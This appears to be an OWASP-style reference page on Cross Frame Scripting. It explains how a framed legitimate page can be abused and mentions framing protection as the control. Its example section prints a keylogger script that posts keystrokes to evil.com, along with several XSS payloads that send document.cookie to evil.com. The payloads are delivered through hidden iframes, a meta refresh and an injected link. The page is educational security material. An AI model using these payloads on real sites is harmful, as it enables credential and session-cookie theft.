 ```yaml
---

layout: col-sidebar
title: Cross Frame Scripting
author: Rezos, Justin Ludwig
contributors: KristenS, Michael Brooks, Andrew Smith, kingthorin
permalink: /attacks/Cross_Frame_Scripting
tags: attack, Cross Frame Scripting

---
```


{% include writers.html %}

## Description

Cross-Frame Scripting (XFS) is an attack that combines malicious
JavaScript with an iframe that loads a legitimate page in an effort to
steal data from an unsuspecting user. This attack is usually only
successful when combined with social engineering. An example would
consist of an attacker convincing the user to navigate to a web page the
attacker controls. The attacker's page then loads malicious JavaScript
and an HTML iframe pointing to a legitimate site. Once the user enters
credentials into the legitimate site within the iframe, the malicious
JavaScript steals the keystrokes.

## Risk Factors

The standard browser security model allows JavaScript from one web page
to access the content of other pages that have been loaded in different
browser windows or frames as long as those other pages have been loaded
from the same-origin server or domain. It does not allow access to pages
that have been loaded from different servers or domains (see MSDN
article [About Cross-Frame Scripting and
Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)).
However, specific bugs in this security model exist in specific
browsers, allowing an attacker to access some data in pages loaded from
different servers or domains. The most well-known such bug affects IE,
which leaks keyboard events across HTML framesets (see iDefense Labs
advisory [Microsoft Internet Explorer Cross Frame Scripting Restriction
Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)).
This bug could allow, for example, an attacker to steal the login
credentials of a browser user as they try to type them into the
login form of a third-party web page.

## Examples

### XFS Attack Against IE

To exploit the IE bug which leaks keyboard events across framesets, an
attacker may create a web page at evil.com, which the attacker controls,
and include on the evil.com page a visible frame displaying the login
page for example.com. The attacker can hide the frame's borders and
expand the frame to cover the entire page, so that it looks to the
browser user like they are actually visiting example.com The
attacker registers some JavaScript in the main evil.com page which
listens for all key events on the page. Normally, this listener would be
notified of events only from the main evil.com page -- but because of
the browser bug, this listener is notified also of events from the
framed example.com page. So every key press the browser user makes in
the example.com frame, while trying to log into example.com, can be
captured by the attacker, and reported back to evil.com:

```html
<!-- http://evil.com/example.com-login.html -->
<head>
<script>
// array of user keystrokes
var keystrokes = [];
// event listener which captures user keystrokes
document.onkeypress = function() {
    keystrokes.push(window.event.keyCode);
}
// function which reports keytrokes back to evil.com every second
setInterval(function() {
    if (keystrokes.length) {
        var xhr = newXHR();
        xhr.open("POST", "http://evil.com/k");
        xhr.send(keystrokes.join("+"));
    }
    keystrokes = [];
}, 1000);
// function which creates an ajax request object
function newXHR() {
    if (window.XMLHttpRequest)
        return new XMLHttpRequest();
    return new ActiveXObject("MSXML2.XMLHTTP.3.0");
}
</script>
</head>
<!-- re-focusing to this frameset tricks browser into leaking events -->
<frameset onload="this.focus()" onblur="this.focus()">
<!-- frame which embeds example.com login page -->
<frame src="http://example.com/login.html">
</frameset>
```

### XSS Attack Using Frames

To exploit a [Cross Site Scripting](/attacks/xss/) on a third-party web page at
example.com, the attacker could create a web page at evil.com, which the
attacker controls, and include a hidden iframe in the evil.com page. The
iframe loads the flawed example.com page, and injects some script into
it through the XSS flaw. In this example, the example.com page prints
the value of the "q" query parameter from the page's URL in the page's
content without escaping the value. This allows the attacker to inject
some JavaScript into the example.com page which steals the
browser-user's example.com cookie, and sends the cookie via a fake-image
request to evil.com (the iframe's src URL is wrapped for legibility):

```html
<iframe style="position:absolute;top:-9999px" src="http://example.com/↵
    flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">')</script>"></iframe>
```

The iframe is hidden off-screen, so the browser user won't have any idea
that they just "visited" the example.com page. However, this attack
is effectively the same as a conventional XSS attack, since the attacker
could have simply redirected the user directly to the example.com page,
using a variety of methods, including a meta element like this (again,
the meta element's URL is wrapped for legibility):

```html
<meta http-eqiv="refresh" content="1;url=http://example.com/↵
    flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">')</script>">
```

The only difference is that when using an iframe, the attacker can hide
the frame off-screen -- so the browser user won't have any idea that they
just "visited" example.com. When using a redirect to navigate
directly to example.com, the browser will display the example.com url in
the browser's address bar, and the example.com page in the browser's
window, so the browser user will be aware that they are visiting
example.com.

### Another XSS Attack Using Frames

To exploit the same [Cross Site Scripting](/attacks/xss/) as above at example.com
(which prints the value of the "q" query parameter from the page's URL
in the page's content without escaping the value) the attacker could
create a web page at evil.com, which the attacker controls, that
includes a link like the following, and induce the user to click on the
link. This link injects an iframe into the example.com page by
exploiting the XSS flaw with the "q" query parameter; the iframe runs
some JavaScript to steal the browser-user's example.com cookie, and
sends it via a fake-image request to evil.com (the URL is wrapped for
legibility):

```html
http://example.com/flawed-page.html?=<iframe src="↵
    javascript:document.body.innerHTML=+'<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">'"></iframe>
```

Again, this attack is effectively the same as a conventional XSS attack;
the attacker simply uses the src attribute of the injected iframe
element as a vehicle to run some javascript code in the attacked page.

## Related Threat Agents

- An XFS attack exploiting a browser bug which leaks events across
frames is similar to an attack which uses conventional key-logging
software.

## Related Attacks

- An attacker might use a hidden frame to carry out a [Cross-site Scripting (XSS)](xss) attack.
- An attacker might use a hidden frame to carry out a [Cross-Site Request Forgery (CSRF)](/attacks/csrf) attack.
- An attacker might use a visible frame to carry out a [Clickjacking](Clickjacking) attack.
- An XFS attack exploiting a browser bug which leaks events across frames is a form of a Phishing attack (the
attacker lures the user into typing-in sensitive information into a frame containing a legitimate third-party page).

## Related Vulnerabilities

- XFS attacks exploit specific browser bugs.

## Related Controls

- XFS attacks may denied by preventing the third-party web page from
being framed; the techniques used to do this are the same as those
used for Clickjacking Protection.

## References

- MSDN article [About Cross-Frame Scripting and Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)
- iDefense Labs advisory [Microsoft Internet Explorer Cross Frame Scripting Restriction Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)
